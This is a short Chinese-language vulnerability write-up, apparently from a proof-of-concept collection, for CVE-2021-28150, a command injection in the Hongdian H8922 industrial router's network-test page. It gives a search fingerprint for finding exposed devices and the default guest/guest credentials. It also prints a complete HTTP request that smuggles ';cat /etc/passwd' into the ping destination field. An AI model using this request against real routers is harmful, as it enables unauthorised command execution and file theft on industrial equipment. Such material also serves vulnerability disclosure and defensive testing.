

# 宏电 H8922 后台命令执行漏洞 CVE-2021-28150

## 漏洞描述

宏电 H8922 后台中的网络测试模块中存在命令执行漏洞。通过命令拼接执行任意命令

## 漏洞影响

<a-checkbox checked>宏电 H8922</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app:"Hongdian H8922 Industrial Router"</a-checkbox></br>

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

使用 ; 命令拼接执行任意命令




请求包为


```plain
POST /tools.cgi HTTP/1.1
Host:
Content-Length: 96
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A
```


## 